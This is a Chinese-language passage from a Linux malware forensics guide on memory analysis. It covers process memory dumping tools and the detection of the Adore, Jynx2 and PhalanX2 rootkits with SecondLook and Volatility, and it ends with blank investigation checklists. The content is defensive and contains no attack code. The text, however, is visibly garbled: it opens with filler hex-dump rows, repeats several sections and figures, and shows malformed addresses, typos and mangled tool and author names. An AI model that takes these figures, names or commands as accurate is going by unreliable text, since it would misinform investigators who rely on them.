| b8f1807 | 00 00 00 00 00 00 00 00 | |

| b8f1808 | 00 00 00 00 00 00 00 00 | |

| b8f1809 | 00 00 00 00 00 00 00 00 | |

| b8f180a | 00 00 00 00 00 00 00 00 | |

| b8f180b | 00 00 00 00 00 00 00 00 | |

| b8f180c | 00 00 00 00 00 00 00 00 | |

| b8f180d | 00 00 00 00 00 00 00 00 | |

| b8f180e | 00 00 00 00 00 00 00 00 | |

| b8f180f | 00 00 00 00 00 00 00 00 | |

| b8f1810 | 00 00 00 00 00 00 00 00 | |

| b8f1811 | 00 00 00 00 00 00 00 00 | |

| b8f1812 | 00 00 00 00 00 00 00 00 | |

| b8f1813 | 00 00 00 00 00 00 00 00 | |

| b8f1814 | 00 00 00 00 00 00 00 00 | |

| b8f1815 | 00 00 00 00 00 00 00 00 | |

| b8f1816 | 00 00 00 00 00 00 00 00 | |

| b8f1817 | 00 00 00 00 00 00 00 00 | |

| b8f1818 | 00 00 00 00 00 00 00 00 | |

| b8f1819 | 00 00 00 00 00 00 00 00 | |

| b8f181a | 00 00 00 00 00 00 00 00 | |

| b8f181b | 00 00 00 00 00 00 00 00 | |

| b8f181c | 00 00 00 00 00 00 00 00 | |

| b8f181d | 00 00 00 00 00 00 00 00 | |

| b8f181e | 00 00 00 00 00 00 00 00 | |

| b8f181f | 00 00 00 00 00 00 00 00 | |

| b8f1820 | 00 00 00 00 00 00 00 00 | |

| b8f1821 | 00 00 00 00 00 00 00 00 | |

| b8f1822 | 00 00 00 00 00 00 00 00 | |

| b8f1823 | 00 00 00 00 00 00 00 00 | |

| b8f1824 | 00 00 00 00 00 00 00 00 | |

| b8f1825 | 00 00 00 00 00 00 00 00 | |

| b8f1826 | 00 00 00 00 00 00 00 00 | |

| b8f1827 | 00 00 00 00 00 00 00 00 | |

| b8f1828 | 00 00 00 00 00 00 00 00 | |

| b8f1829 | 00 00 00 00 00 00 00 00 | |

| b8f182a | 00 00 00 00 00 00 00 00 | |

| b8f182b | 00 00 00 00 00 00 00 00 | |

| b8f182c | 00 00 00 00 00 00 00 00 | |

| b8f182d | 00 00 00 00 00 00 00 00 | |

| b8f182e | 00 00 00 00 00 00 00 00 | |

| b8f182f | 00 00 00 00 00 00 00 00 | |

| b8f1830 | 00 00 00 00 00 00 00 00 | |

| b8f1831 | 00 00 00 00 00 00 00 00 | |

| b8f1832 | 00 00 00 00 00 00 00 00 | |

| b8f1833 | 00 00 00 00 00 00 00 00 | |

| b8f1834 | 00 00 00 00 00 00 00 00 | |

| b8f1835 | 00 00 00 00 00 00 00 00 | |

| b8f1836 | 00 00 00 00 00 00 00 00 | |

| b8f1837 | 00 00 00 00 00 00 00 00 | |

| b8f1838 | 00 00 00 00 00 00 00 00 | |

| b8f1839 | 00 00 00 00 00 00 00 00 | |

| b8f183a | 00 00 00 00 00 00 00 00 | |

 b8f183b | 00 00 00 00 00 00 00 00 | |

 b8f183c | 00 00 00 00 00 00 00 00 | |

| b8f183d | 00 00 00 00 00 00 00 00 | |

| b8f183e | 00 00 00 00 00 00 00 00 | |

| b8f183f | 00 00 00 00 00 00 00 00 | |

| b8f1840 | 00 00 00 00 00 00 00 00 | |

| b8f1841 | 00 00 00 00 00 00 00 00 | |

| b8f1842 | 00 00 00 00 00 00 00 00 | |

| b8f1843 | 00 00 00 00 00 00 00 00 | |

| b8f1844 | 00 00 00 00 00 00 00 00 | |

| b8f1845 | 00 00 00 00 00 00 00 00 | |

| b8f1846 | 00 00 00 00 00 00 00 00 | |

| b8f1847 | 00 00 00 00 00 00 00 00 | |

| b8f1848 | 00 00 00 00 00 00 00 00 | |

| b8f1849 | 00 00 00 00 00 00 00 00 | |

| b8f184a | 00 00 00 00 00 00 00 00 | |

| b8f184b | 00 00 00 00 00 00 00 00 | |

| b8f184c | 00 00 00 00 00 00 00 00 | |

| b8f184d | 00 00 00 00 00 00 00 00 | |

| b8f184e | 00 00 00 00 00 00 00 00 | |

| b8f184f | 00 00 00 00 00 00 00 00 | |

| b8f1850 | 00 00 00 00 00 00 00 00 | |

| b8f1851 | 00 00 00 00 00 00 00 00 | |

| b8f1852 | 00 00 00 00 00 00 00 00 | |

| b8f1853 | 00 00 00 00 00 00 00 00 | |

| b8f1854 | 00 00 00 00 00 00 00 00 | |

| b8f1855 | 00 00 00 00 00 00 00 00 | |

| b8f1856 | 00 00 00 00 00 00 00 00 | |

| b8f1857 | 00 00 00 00 00 00 00 00 | |

| b8f1858 | 00 00 00 00 00 00 00 00 | |

| b8f1859 | 00 00 00 00 00 00 00 00 | |

| b8f185a | 00 00 00 00 00 00 00 00 | |

| b8f185b | 00 00 00 00 00 00 00 00 | |

| b8f185c | 00 00 00 00 00 00 00 00 | |

| b8f185d | 00 00 00 00 00 00 00 00 | |

| b8f185e | 00 00 00 00 00 00 00 00 | |

| b8f185f | 00 00 00 00 00 00 00 00 | |

| b8f1860 | 00 00 00 00 00 00 00 00 | |

| b8f1861 | 00 00 00 00 00 00 00 00 | |

| b8f1862 | 00 00 00 00 00 00 00 00 | |

| b8f1863 | 00 00 00 00 00 00 00 00 | |


| b8f1864 | 00 00 00 00 00 00 00 00 | |
| b8f1865 | 00 00 00 00 00 00 00 00 | |
| b8f1866 | 00 00 00 00 00 00 00 00 | |
| b8f1867 | 00 00 00 00 00 00 00 00 | |
| b8f1868 | 00 00 00 00 00 00 00 00 | |
| b8f1869 | 00 00 00 00 00 00 00 00 | |
| b8f186a | 00 00 00 00 00 00 00 00 | |
| b8f186b | 00 00 00 00 00 00 00 00 | |
| b8f186c | 00 00 00 00 00 00 00 00 | |
| b8f186d | 00 00 00 00 00 00 00 00 | |
| b8f180e | 00 00 00 00 00 00 00 00 | |
b8f180f | 00 00 00 00 00 00 00 00 | |

图 2.27- 使用 `SecondLook` 提取特定内存

## 第2章 内存取证

通过 `SecondLook` 中的“反汇编”`Disassembly`选项卡对特定内存区域进行更深入的检查，使取证人员能够如图 2.28 所示查看内存的反汇编部分。

| 标签 | 数据 | 反汇编 |
|---|---|---|

| 地址空间:内核虚拟 | 起始地址:0xffffff88907688 结束地址:0xffffff88907688 长度:51 | |
| ffffffff88907688 | usb_spi__module: 00 00 | add %al, (%x) |
| ffffffff88907682 | 00 00 | add %al, (%x) |
| ffffffff88907684 | 00 00 | add %al, (%x) |
| ffffffff88907686 | 00 01 | add %al, (%x) |
| ffffffff8890768a | 10 00 | adc %al, (%x) |
| ffffffff8890768c | 00 00 | add %al, (%x) |
| ffffffff8890768e | 00 02 | add %al, (%x) |
| ffffffff88907690 | 20 00 | add %al, (%x) |
| ffffffff88907692 | 00 00 | add %al, (%x) |
| ffffffff88907698 | 75 23 | jnz 0xffffff889077d0 [usb_spi__th |

图 2.28– 使用 `Adore` rootkit 查看内存反汇编

在这种情况下，可能从“proc”虚拟文件系统获取与特定恶意可执行文件相关的信息。`"/proc/<PID>/fd"`子目录包含该进程拥有的每个文件的条目，以文件描述符命名，并是指向实际文件的符号链接（“exe”条目）。`"/proc/<PID>/maps"`条目显示进程内存的哪些区域当前映射到文件，以及文件的索引节点（inode）编号和名称。

获取运行进程内存内容的另一种方法是使用 `gcore` 储储进程的核心映像，`gcore` 是大多数 Linux 和 UNIX 发行版的内置工具。在 Linux 发行版上，可以使用命令 `gcore [-o filename] pid` 调用 `gcore`。提取进程内存生成的输出文件可以加载到 `gdb` 调试器中进一步分析，或使用 `strings` 命令解析该文件。

`shortstop` 工具可以进行静态编译并从可移动介质运行，以捕内存和系统的各种信息，包括命令行、当前工作目录、状态、环境变量、“proc”文件系统中关联条目的列表以及内存映射。命令行语法为 `shortstop -m <PID>`，输出可以重定向到文件以供进一步检查。

The Corner’s Toolkit `TCT`，由 Dan Farmer 和 Wiener Venese 开发。使用 `pcat` 时，提供目标进程的 PID 并提供新转储文件的名称。此外，`pcat` 可以使用 `-m` 切换生成进程内存的映射文件。

另一种获取运行进程内存内容的工具是 `memfetch`。与 `pcat` 不同，`memfetch` 将进程的内存映射储到一个文件中以便进一步分析。

在 Linux 系统上储储进程内存内容的另一个工具是 Tobias’s Process Dump。Process Dump 是免费软件，但它是闭源的，并与 Klein 开发的分析工具 Memory Parser 配合使用。使用 Process Dump 储储疑进程的内存后，可以使用 Memory Parser 分析输出。

25 有关 `shortstop` 的更多信息，请访问 http://code.google.com/p/shortstop。

26 关于 The Corner’s Toolkit 的更多信息，请访问 http://www.porcupine.org/forensics/tct.html。

27 关于 `memfetch` 的更多信息。

28 关于 Process Dump 的更多信息，请访问 http://www.trapkit.de/research/forensic/pd/index.html（可从 http://www.trapkit.de/research/forensic/pd_v1_1.lnx 下载）。

## 调查考虑因素

攻击者在受破坏的系统中隐藏恶意进程正变得越来越普遍。因此，在某些情况下，尝试在受破坏的活动系统中获取内存可能是徒劳的，这使得取证完全依赖 `Volatility` 和 `SecondLook` 等工具来分析全内存储储。

# 剖析 LINUX 进程内存

深入内存中数据的特定排列，以寻找恶意代码并恢复与受影响系统中恶意软件配置和操作相关的特定细节。

某些取证工具可以提供专门为恶意软件取证设计的内存额外见。例如，对常见隐藏技术的检测已在 `SecondLook` 和 `Volatility` 插件等工具中编码。

`SecondLook` 有几个用于检测内存中的恶意注入代码和钩 `hooks`，包括寻找符号等混淆迹象。`SecondLook` 定位内存中潜在恶意代码的另一种方法是执行页面与从其服务器下载的良好参考内核之间的逐字节比对（也提供独立的参考数据集）。任何与良好内核参考不匹配的内存区域都会被标记为未知。此外，注入 Linux 进程代码的恶意软件越来越多，促成了 `SecondLook` 的一个新功能，即内存中的页面哈希与磁盘上关联注入代码的比对。

图 2.29 显示了 `SecondLook` 命令行的告报，指示 `Jynx2` rootkit 和网络接口处于

```
% second-cli -m Ubuntu-Jynx2.so -a
Second Look (r) Release 3.1.1 (c) 2008-2012 Raytheon Pikewers Corporation

No reference module available to verify loaded kernel module 'pmad'
No reference module available to verify loaded kernel module 'Emen'
Executable mapping in task bash (pid 777) of file /xxJyn/jynx2.so at
0x0087000 does not match any file in the pagehash database
Executable mapping in task bash (pid 717) of file /xxJyn/jynx2.so at
0x0060000 does not match any file in the pagehash database
Executable mapping in task firefox-bin (pid 708) of file /xxJyn/jynx2.so at
0x00f7000 does not match any file in the pagehash database
Executable mapping in task ircicid (pid 518) of file /xxJyn/jynx2.so at
0x00c4000 does not match any file in the pagehash database
Executable mapping in task bash (pid 32739) of file /xxJyn/jynx2.so at
0x00ca7000 does not match any file in the pagehash database
< for brevity>
Network interface eth0 is in promiscuous mode.
```

图 2.29——第二次告报，显示注入到多个进程中的 `Jynx2` rootkit

# LINUX 系统恶意软件取证现场指南

混杂模式 `promiscuous mode` 是网络嗅探器正在运行的指示。rootkit 的这些方面在活动系统中都是隐藏的，用户或系统管理员不可见，但可以使用取证工具发现。

`Volatility` 使用 `linux_check_syscall` 函数检测 Linux 系统调用的篡改，如图 2.30 所示，许多函数被 rootkit 列为“HOOKED”已钩。每个系统调用的关联名称可以在“linux.h”文件中查找。

```
python vol.py -f linux_check_syscall
| Table Name | Index | Symbol |
|---|---|---|
| 64bit | 0 | 0xffffffff059000 | HOOKED |
| 64bit | 1 | 0xffffffff062000 | HOOKED |
| 64bit | 2 | 0xffffffff035000 | HOOKED |
| 64bit | 3 | 0xffffffff111353 | sys_close |
| 64bit | 4 | 0xffffffff04b000 | HOOKED |
| 64bit | 5 | 0xffffffff78aa73 | sys_newstat |
| 64bit | 6 | 0xffffffff802000 | HOOKED |
| 64bit | 7 | 0xffffffff126170 | sys_poll |
```

图 2.30——显示钩子系统调用表

`SecondLook` 通过对比图 2.31 中的已知良好值进行查找来检测 Linux 系统调用的篡改。

| Analysis | Information | Disassembly | Data |
|---|---|---|---|

| General | 点击地址查看详情和数据。 | | |
| Kernel Buffer | 2 | 0xffffffff056000[kernel_key.2846-5324] | 0xffffffff117155 {sys=read} |
| Kernel Symbols | | | |
| Kernel modules | 1 | 0xffffffff1171c3 {sys=write} |
| Loaded Module | | | 0xffffffff16253 |
| Module_txtfs_2 | 3 | | 0xffffffff13551 {sys=close} |
| Syscall List | 5 | | 0xffffffff13551 |
| Vmalloc Allocations | 6 | 0xffffffffffff8000[user_stats...] | 0xffffffffffff1aa01 |
| Active Tasks | 5 | | 0xffffffff78aa73 {sys=newstat} |
| Open Files | 6 | 0xffffffff81a001[inode...] | {sys=newstat} |
| System Call | | | |
| Interrupt Descriptor | | | |
| Kernel Pointers | 7 | | 0xffffffff1126170 {sys=poll} |

图 2.31——`SecondLook`列表显示系统调用的篡改

`Volatility` 还可以使用 `linux_check_id` 插件检测中断描述符的篡改，并使用 `linux_check_f` 插件检测文件操作结构。该插件检查打开文件和/proc虚拟文件系统的函数指针，以确保它们与隐藏内核模块关联。

# 第2章 Linux 内存函数

函数指针在受破坏的系统中有多种用途，包括如图 2.32 `SecondLook`所示的隐藏字段，可以通过修改的函数指针找到。

| Analysis | Information | Disassembly | Data |
| --- | --- | --- | --- |
| General | 点击地址查看汇编和数据视图。 | | |
| Kernel Message | | m_syscall: this module | 0xffffffffff884bc4 [kernel:cleanup module=0] |
| Kernel Symbols | | 0xffffffffff88b530 [autfs4:autfs4_sb] |
| Loaded Module | memfs4.autfs4_gets | get_sb | 0xffffffffff88e000 [autfs4:get_sb=0] |
| Module Types | memfs4.autfs4_gets | kill_sb | 0xffffffffff8eb7e [autfs4:kill_sb=0] |
| Victim Address | m_syscall: this module | | 0xffffffffff8ec654 [autfs4:cleanup module=0] |
| Active Tasks | tqcp4_seq_afinfo | readdr | 0xffffffffff88904222 [tqcp4:seq_afinfo] |
| Memory Maps | fext_13_dir_operations | readdr | 0xffffffffff88905873 [usb:audio_root readdr] |
| System Call Table | fext_file_operations | | 0xffffffffff889058 [usb:audio_root_var_write] |
| Kernel Pointer | proc_node_operations | lookup | 0xff[root] |
| Kernel Nodes | Verified | Bad Function |

图 2.32——`SecondLook`显示可疑的函数指针

`Volatility` 使用图 2.33 所示的 `linux_check_afinfo` 插件检测网络信息。该插件检查内存中的 `tcp64_seq_afinfo` 数据结构是否被篡改。rootkit 修改此数据使用 `netstat` 命令隐藏网络连接。

```
% python vol.py -f linux_check_afinfo
| Symbol Name | Member | Address |
| --- | --- | --- |
| tqcp4_seq_afinfo | owner | |
| tcp64_seq_afinfo | show | 0x0000ffff00d1000 |
| udplite4_seq_afinfo | owner | |
| udp4_seq_afinfo | | |
```

图 2.33——`Volatility`显示网络钩子

# Linux 系统恶意软件取证指南

`SecondLook` 还能检测到某些根内核 `rootkits` 对“tcp4_seq_afinfo”数据结构进行的篡改，并如图 2.34 所示显示在“内核点 Kernel Points”下（输入项中的第二个）。

`Adore` 根内核用于隐藏网络连接的另一种方法是使用过滤器钩子 `filter hook`，如图 2.35 所示，`SecondLook` 用橙色标出。

如之前的图 2.23 所示，当内存中发现异常情况时（例如进程内存本应为只读但实际上不是），`SecondLook` 会生成告警。与 `PhalanX2` 根内核相关的可疑内存区域的详细视图如图 2.36 所示。

| 分析 | 告警 | 信息 | 反汇编 | 数据 |
|---|---|---|---|---|

| 内存映射 | 右键点击地址进行反汇编和查看选项。 | / | | |
| 系统调用表 | nf hooks 结构体地址 | 钩子函数 | 所有者 | |
| 中断描述 | 0xffffff8800b8a0 0xffffffffffffffffff 0xffffffffff8f7e6a [ip_con_ 0xffffff8800b8a0 | | | | |
| 0xffffff8800b8a70 0xffffffffff8f00d2 [ip_con_ 0xffffff8800b8a0 | | | | |
| 内核模块 | | | | |
| 二进制格式 | 0xffffffffff8913e20 [usb_spi:nfin0] 0xffffffffff8f00951a [sp_ub_ 0x0000000000000000] | | | | |
| 协议处理器 | | | | |
| 网络 | 活动集 | 图例: | 已验证 | 未验证 | 错误的钩子函数 |

图 2.35—`SecondLook` 显示与网络相关的可疑内存区域

| 分析 | 告警 | 信息 | 反汇编 | 数据 |
|---|---|---|---|---|


| 通用 | 存在于一个或多个库中；未经验的执行文件映射可能代表 | | | | |

| 内核内存基 | PID | 起始地址 | 结束地址 | 大小 | 标志 | 大小 |

| 加载模块 | 2479 Xnext 0x0000000000000000 0x0000000000001500 84k r-xp | `/usr/share/1Yam` | | | | |

| 内核文本 L | 2479 Xnext 0x0000000000001000 0x0000000000001000 84k rwx | `/usr/share/1Yam` | | | | |

| 内存模块 (ki- | 2479 Xnext 0x0000000000000000 0x0000000000000000 16k rwx | | | | |

| Sysfs 模块列表 | 2479 Xnext 0x00000007a7b3d000 0x00000007bf8d3e00 12k rwx | | | | |

| Vinealloc | 2479 Xnext 0x00000007a7b3d5000 0x000000078a3d5000 92k rwx | | | | |

| 活动任务 | | | | | | | |

| 打开的文件 | 2479 Xnext 0x00000007ffff4c3300 0x0000ffffffff4c5500 136k rwx | `[stack]` | | | | |

| 内存映射 | | | | | | |

图 2.36—SecondLook 显示与 PhalanX2 根内核程序相关的可疑内存区域


# 分析技巧

## 寻找隐藏的内存

数字调查员不应仅依赖自动化方法来检测内存中的隐藏信息和隐匿技术。免费和商业工具的检测方法仅仅是第 1 章描述的检查内存易失数据的整体过程中的一部分，以及本章后面提到的全面检查和重构方法。


### 调查考虑因素

- 某些 SecondLook 告警可能与合法项目有关，例如用于获取内存的 `pmad` 和 `fmem` 模块。因为 SecondLook 不将此类模块识别为操作系统的一部分，所以可能会误报。
- Adore 根内核用于隐藏网络连接的另一种方法是使用过滤器钩子，如图 2.35 所示，SecondLook 用橙色标出。
- 如之前的图 2.23 所示，当内存中发现异常情况时（例如进程内存本应为只读但实际上不是），SecondLook 会生成告警。与 PhalanX2 根内核相关的可疑内存区域的详细视图如图 2.36 所示。

# 调查考虑因素（接上）

- 某些 SecondLook 告警可能与合法项目有关，例如用于获取内存的 `pmad` 和 `fmem` 模块。因为 SecondLook 不将此类模块识别为操作系统的一部分，所以可能会误报。
- 数字调查员不应仅依赖自动化方法来检测内存中的隐藏信息和隐匿技术。免费和商业工具的检测方法仅仅是第 1 章描述的检查内存易失数据的整体过程中的一部分，以及本章后面提到的全面检查和重构方法。

# 结论

- 某些 SecondLook 告警可能与合法项目有关，例如用于获取内存的 `pmad` 和 `fmem` 模块。
- 数字调查员不应仅依赖自动化方法来检测内存中的隐藏信息和隐匿技术。免费和商业工具的检测方法仅仅是第 1 章描述的检查内存易失数据的整体过程中的一部分，以及本章后面提到的全面检查和重构方法。

# Linux 系统恶意软件取证指南

- SecondLook 还能检测到某些根内核（rootkits）对 `tcp4_seq_afinfo` 数据结构进行的篡改，并如图 2.34 所示显示在“内核点（Kernel Points）”下（输入项中的第二个）。
- Adore 根内核用于隐藏网络连接的另一种方法是使用过滤器钩子（filter hook），如图 2.35 所示，SecondLook 用橙色标出。
- 如之前的图 2.23 所示，当内存中发现异常情况时（例如进程内存本应为只读但实际上不是），SecondLook 会生成告警。与 PhalanX2 根内核相关的可疑内存区域的详细视图如图 2.36 所示。

| 分析 | 告警 | 信息 | 反汇编 | 数据 |
|---|---|---|---|---|
| 内存映射 | 右键点击地址进行反汇编和查看选项。 | / | | |
| 系统调用表 | nf hooks 结构体地址 | 钩子函数 | 所有者 | |
| 中断描述 | 0xffffff8800b8a0 0xffffffffffffffffff 0xffffffffff8f7e6a [ip_con_ 0xffffff8800b8a0 | | | | |
| 0xffffff8800b8a70 0xffffffffff8f00d2 [ip_con_ 0xffffff8800b8a0 | | | | |
| 内核模块 | | | | |
| 二进制格式 | 0xffffffffff8913e20 [usb_spi:nfin0] 0xffffffffff8f00951a [sp_ub_ 0x0000000000000000] | | | | |
| 协议处理器 | | | | |
| 网络 | 活动集 | 图例: | 已验证 | 未验证 | 错误的钩子函数 |

图 2.35—SecondLook 显示与网络相关的可疑内存区域

| 分析 | 告警 | 信息 | 反汇编 | 数据 |
|---|---|---|---|---|
| 通用 | 存在于一个或多个库中；未经验的执行文件映射可能代表 | | | | |
| 内核内存基 | PID | 起始地址 | 结束地址 | 大小 | 标志 | 大小 |
| 加载模块 | 2479 Xnext 0x0000000000000000 0x0000000000001500 84k r-xp | `/usr/share/1Yam` | | | | |
| 内核文本 L | 2479 Xnext 0x0000000000001000 0x0000000000001000 84k rwx | `/usr/share/1Yam` | | | | |
| 内存模块 (ki- | 2479 Xnext 0x0000000000000000 0x0000000000000000 16k rwx | | | | | |
| Sysfs 模块列表 | 2479 Xnext 0x00000007a7b3d000 0x00000007bf8d3e00 12k rwx | | | | | |
| Vinealloc | 2479 Xnext 0x00000007a7b3d5000 0x000000078a3d5000 92k rwx | | | | |
| 活动任务 | | | | | | | |
| 打开的文件 | 2479 Xnext 0x00000007ffff4c3300 0x0000ffffffff4c5500 136k rwx | `[stack]` | | | | |
| 内存映射 | | | | | | | |

图 2.36—SecondLook 显示与 PhalanX2 根内核程序相关的可疑内存区域


# 分析技巧

## 寻找隐藏的内存

数字调查员不应仅依赖自动化方法来检测内存中的隐藏信息和隐匿技术。免费和商业工具的检测方法仅仅是第 1 章描述的检查内存易失数据的整体过程中的一部分，以及本章后面提到的全面检查和重构方法。


### 调查考虑因素

- 某些 SecondLook 告警可能与合法项目有关，例如用于获取内存的 `pmad` 和 `fmem` 模块。因为 SecondLook 不将此类模块识别为操作系统的一部分，所以可能会误报。
- Adore 根内核用于隐藏网络连接的另一种方法是使用过滤器钩子（filter hook），如图 2.35 所示，SecondLook 用橙色标出。
- 如之前的图 2.23 所示，当内存中发现异常情况时（例如进程内存本应为只读但实际上不是），SecondLook 会生成告警。与 PhalanX2 根内核相关的可疑内存区域的详细视图如图 2.36 所示。

# 结论

- 某些 SecondLook 告警可能与合法项目有关，例如用于获取内存的 `pmad` 和 `fmem` 模块。

# Linux 系统恶意软件取证领域指南

## 用户账户/密码口令：

- 系统上的用户账户：
- 用户源点：
- 远程登录
- 本地登录
- 登录会话时长：
- 用户账户访问的共享、文件或其他资源：
- 与用户账户关联的进程：
- 归属于用户账户的网络活动：
- 与用户账户关联的密码口令：

## 网络连接与活动：

- 系统已连接网络：
- 协议：
- `TCP`
- `UDP`
- 本地端口：
- 状态：`DELETED`、`ESTABLISHED`、`LISTEN`、`SYN`、`SEND`、`SYN_RECEIVED`、`TIME_WAIT`、其他
- 远程连接地址：
- 远程连接端口：
- 与连接关联的进程 ID `PID`：

## 第 2 章：Linux 内存取证

| 从主体系统发出的主要挂载点： | |
| :--- | :--- |
| 远程挂载点： | |
| 挂载名称： | 挂载名称： |
| 主机地址： | 主机地址： |
| 最近传输的文件： | 最近传输的文件： |

## 运行/隐藏/终止进程：

### 发现的可疑进程：

- ☐ 进程状态：☐ 已终止（`TERMINATED`） ☐ 隐藏（`HIDDEN`）
- ☐ 进程名称：
- ☐ 进程标识 `PID`：
- ☐ 创建时间：
- ☐ 运行时长：
- ☐ 进程结束时间：
- 内存：
- 关联执行文件的路径：
- 内存偏移量：
- ☐ 关联用户：
- ☐ 子进程：
- 命令行参数：
- 文件句柄：
- 已加载模块：
- 已导出模块：
- 已获取进程内存：
- ☐ 文件名：
- ☐ 文件大小：
- ☐ MD5 哈希值：

# 服务（SERVICES）:

| 识别出的可疑服务: | 识别出的可疑服务: |
| --- | --- |
| ☐ 服务名称: | ☐ 服务名称: |
| ☐ 显示名称: | ☐ 显示名称: |
| ☐ 状态: | ☐ 状态: |

# 驱动程序（DRIVERS）:

- 已安装驱动程序列表

| 可疑驱动程序: | 可疑驱动程序: |
| --- | --- |
| ☐ 名称: | ☐ 名称: |
| ☐ 位置: | ☐ 位置: |
| ☐ 链接日期: | ☐ 链接日期: |

# Linux 系统恶意软件取证指南

# 打开的文件（OPEN FILES）:

| 识别出的已打开文件: | 识别出的已打开文件: |
| --- | --- |
| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |
| ☐ 文件名: | ☐ 文件名: |
| ☐ 打开文件的进程: | ☐ 打开文件的进程: |
| ☐ 句柄值: | ☐ 句柄值: |
| ☐ 文件在系统中的位置: | ☐ 文件在系统中的位置: |


| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 打开文件的进程: | ☐ 打开文件的进程: |

| ☐ 句柄值: | ☐ 句柄值: |

| ☐ 文件在系统中的位置: | ☐ 文件在系统中的位置: |

| 识别出的已打开文件: | 识别出的已打开文件: |

| --- | --- |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 打开文件的进程: | ☐ 打开文件的进程: |

| ☐ 句柄值: | ☐ 句柄值: |

| ☐ 文件在系统中的位置: | ☐ 文件在系统中的位置: |

| 识别出的已打开文件: | 识别出的已打开文件: |

| --- | --- |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 打开文件的进程: | ☐ 打开文件的进程: |

| ☐ 句柄值: | ☐ 句柄值: |

| ☐ 文件在系统中的位置: | ☐ 文件在系统中的位置: |

| 识别出的已打开文件: | 识别出的已打开文件: |

| --- | --- |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 打开文件的进程: | ☐ 打开文件的进程: |

| ☐ 句柄值: | ☐ 句柄值: |

| ☐ 文件在系统中的位置: | ☐ 文件在系统中的位置: |

# 命令历史（COMMAND HISTORY）:

# 感兴趣的命令（COMMANDS OF INTEREST）:

- ☐ 识别出感兴趣的命令

  - ☐ 是

  - ☐ 否

# 网络共享（NETWORK SHARES）:

- ☐ 已检查的网络共享

  - ☐ 识别出的可疑共享

    - ☐ 共享名称:

    - ☐ 位置:

    - ☐ 描述:

  - ☐ 识别出的可疑共享

    - ☐ 共享名称:

    - ☐ 位置:

    - ☐ 描述:

  - ☐ 识别出的可疑共享

    - ☐ 共享名称:

    - ☐ 位置:

    - ☐ 描述:

  - ☐ 识别出的可疑共享

    - ☐ 共享名称:

    - ☐ 位置:

    - ☐ 描述:

# 第 2 章 Linux 内存取证

# 155

# 计划任务（SCHEDULED TASKS）:

| 已检查的计划任务 | 可疑任务 |

| --- | --- |

| 系统上已计划的任务 | 任务名称: |

| 是 | 计划运行时间: |

| 否 | 状态: |

| 识别出的可疑任务: | 描述: |

| 是 | 任务名称: |

| 否 | 计划运行时间: |

| | 状态: |

# 内存隐藏（MEMORY CONCEALMENT）:

| 注入/挂钩（Injection Hooking） | |

| --- | --- |

| ☐ 识别出的代码/内存映射 | ☐ 识别出的代码/内存映射 |

| ☐ 名称: | ☐ 名称: |

| ☐ 位置: | ☐ 位置: |

| ☐ 描述: | ☐ 描述: |

| ☐ 识别出的代码/内存映射 | ☐ 识别出的代码/内存映射 |

| ☐ 名称: | ☐ 名称: |

| ☐ 位置: | ☐ 位置: |

| ☐ 描述: | ☐ 描述: |

| ☐ 识别出的注入/挂钩 | |

| ☐ 名称: | |

## 文件系统线索（FILE SYSTEM CLUES）

存储介质上的线索: 备注

# 文件系统事件（FILE SYSTEM EVENTS）:

| ☐ 识别出的文件/文件夹 | ☐ 识别出的文件/文件夹 |

| --- | --- |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 创建日期: | ☐ 创建日期: |

| ☐ 系统中的路径 (path): | ☐ 系统中的路径 (path): |

| ☐ 系统中的簇 (clusters): | ☐ 系统中的簇 (clusters): |

| ☐ 识别出的文件/文件夹 | ☐ 识别出的文件/文件夹 |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 创建日期: | ☐ 创建日期: |

| ☐ 系统中的路径 (path): | ☐ 系统中的路径 (path): |

| ☐ 系统中的簇 (clusters): | ☐ 系统中的簇 (clusters): |

| ☐ 识别出的文件/文件夹 | ☐ 识别出的文件/文件夹 |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 创建日期: | ☐ 创建日期: |

| ☐ 系统中的路径 (path): | ☐ 系统中的路径 (path): |

| ☐ 系统中的簇 (clusters): | ☐ 系统中的簇 (clusters): |

| ☐ 识别出的文件/文件夹 | ☐ 识别出的文件/文件夹 |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 创建日期: | ☐ 创建日期: |

| ☐ 系统中的路径 (path): | ☐ 系统中的路径 (path): |

| ☐ 系统中的簇 (clusters): | ☐ 系统中的簇 (clusters): |

| ☐ 识别出的文件/文件夹 | ☐ 识别出的文件/文件夹 |

| ☐ 远程打开/☐本地打开 | ☐ 远程打开/☐本地打开 |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 创建日期: | ☐ 创建日期: |

| ☐ 系统中的路径 (path): | ☐ 系统中的路径 (path): |

| ☐ 系统中的簇 (clusters): | ☐ 系统中的簇 (clusters): |

# Linux 系统恶意软件取证指南

| 网络线索（NETWORK CLUES） | |

| --- | --- |

| ☐ 发现的 IP 数据包: | ☐ 发现的 IP 数据包: |

| ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 协议: | ☐ 协议: |

| ☐ TCP | ☐ TCP |

| ☐ UDP | ☐ UDP |

